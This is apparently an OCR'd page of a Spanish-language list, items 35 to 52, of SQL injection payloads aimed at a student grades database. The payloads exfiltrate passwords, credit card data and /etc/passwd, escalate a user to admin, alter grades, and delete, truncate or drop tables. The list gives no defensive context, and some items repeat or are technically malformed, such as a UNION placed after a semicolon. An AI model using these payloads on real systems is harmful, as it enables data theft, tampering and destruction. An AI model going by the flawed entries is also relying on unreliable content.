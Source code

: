 35. **Intentar realizar una inyección SQL basada en error**:
    - Inyección SQL: `'; SELECT * FROM non_existent_table; --`

---------------


36. **Recuperar contraseñas almacenadas en texto plano**:
    - Inyección SQL: `'; SELECT username, plaintext_password FROM users; --`

37. **Intentar acceder a datos confidenciales en la base de datos**:
    - Inyección SQL: `'; SELECT * FROM credit_card_data; --`

38. **Obtener información sensible sobre la estructura de la base de datos**:
    - Inyección SQL: `'; SELECT table_name FROM information_schema.tables; --`

39. **Recuperar información de tablas del sistema**:
    - Inyección SQL: `'; SELECT * FROM sys.sysobjects WHERE xtype = 'U'; --`

40. **Eliminar registros específicos de la tabla**:
    - Inyección SQL: `'; DELETE FROM notas WHERE estudiante_codigo = '2022001'; --`

41. **Recuperar contraseñas almacenadas en formato hash débil**:
    - Inyección SQL: `'; SELECT username, weak_hashed_password FROM users; --`

42. **Realizar una denegación de servicio (DoS) truncando la tabla**:
    - Inyección SQL: `'; TRUNCATE TABLE notas; --`

43. **Intentar acceder a directorios sensibles del servidor**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/passwd'); --`

44. **Recuperar información confidencial de los usuarios**:
    - Inyección SQL: `'; SELECT username, email, phone_number FROM users; --`

45. **Modificar registros de usuarios privilegiados**:
    - Inyección SQL: `'; UPDATE users SET role='admin' WHERE username='admin'; --`

-------------

46. **Intentar acceder a archivos del sistema para obtener información confidencial**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/passwd'); --`

47. **Recuperar información de otras tablas relacionadas**:
    - Inyección SQL: `'; UNION SELECT username, password, NULL, NULL, NULL FROM users; --`

48. **Eliminar datos de la tabla notas**:
    - Inyección SQL: `'; DROP TABLE notas; --`

49. **Actualizar datos en la tabla notas**:
    - Inyección SQL: `'; UPDATE notas SET corte1 = 5.0 WHERE estudiante_codigo = '2022001'; --`

50. **Insertar datos maliciosos en la tabla notas**:
    - Inyección SQL: `'; INSERT INTO notas (estudiante_codigo, asignatura, corte1, corte2, corte3) VALUES ('2022001', 'SQL Injection', 5.0, 5.0, 5.0); --`

51. **Recuperar información del sistema operativo**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/passwd'); --` (Nota: esto es específico de MySQL y depende de la configuración del servidor)

52. **Obtener el hash de la contraseña del usuario**:
    - Inyección SQL: `'; UNION SELECT 'admin', password_hash, NULL, NULL, NULL FROM usuarios WHERE username = 'admin'; --`
